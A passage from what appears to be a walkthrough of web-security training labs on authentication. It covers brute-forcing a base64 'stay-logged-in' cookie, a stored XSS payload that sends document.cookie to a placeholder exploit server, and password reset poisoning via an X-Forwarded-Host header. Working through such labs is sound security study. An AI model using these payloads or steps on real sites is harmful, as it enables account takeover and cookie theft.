       `sed -i 's/^/carlos:/' hashed_words.txt`

      - sample output look like this : `carlos:e807f1fcf82d132f9bb018ca6738a19f` 

  - Now we have to encode the whole combination as `base64` and bruteforce it.    

      sample output of `base64` encoded combination of `username:password(md5)`

      `Y2FybG9zOmU4MDdmMWZjZjgyZDEzMmY5YmIwMThjYTY3MzhhMTlm`
---
### 10) Offline password cracking - ###   
  
  1) check all possibility for `xss` , if you get xss, try to steal user cookie with it.

  #### For this lab...
  
  - Log-in via `wiener:peter` and naviagte to any blog-post, put the malicious `xss` code into `comment` section.

     `<script>var i=new Image(); i.src="https://your-exploit-server/?cookie="+btoa(document.cookie);</script>` 
  
  - Now, Go to the `exploit server` and see the logs. You'll get the cookie of victim(carlos).

     `c2VjcmV0PW5icG10ME5Za3E4M0J6WlZFM0Y1UElpa3FtdXVOS3pzOyBzdGF5LWxvZ2dlZC1pbj1ZMkZ5Ykc5ek9qSTJNekl6WXpFMlpEVm1OR1JoWW1abU0ySmlNVE0yWmpJME5qQmhPVFF6`

  - Decode the above base64 encoded part into text. i..e

    `secret=nbpmt0NYkq83BzZVE3F5PIikqmuuNKzs; stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

  - Decode the base64 encoded `stay-logged-in` cookie into text.
  
    `carlos:26323c16d5f4dabff3bb136f2460a943`

  - At the decode the md5 hash of password, login to victim's account and delete the account.    
---
### 11) Password reset poisoning via middleware -

   1) If the application accepts `X-Forwarded-Host:` header, we can use it to manipulate the uniquely generated password reset link to any arbitrary domain.
   
   2) Log-in to attacker account, do forget password and intercept the requet
   
   3) Add, `X-Forwarded-Host:` header into the requet to you `burp-collaborator` url
   
   4) Now, navigate to your password reset link, if the link redirect you to `burp-collaborator` url, then the application is vulnerable to `Password-reset poisoning` attack.

   #### For this lab...

   - Go to the `/forget-password` page, enter the victim's username & intercept the request.
   - Now, add HTTP header `X-Forwarded-Host: your-exploit-server` in the request below the  `Host`
   - Forward the request, navigate to attacker `exploit-server`, we get a `HTTP-request` with unique `password-reset-token`
   - Add the `token` at the end of the url

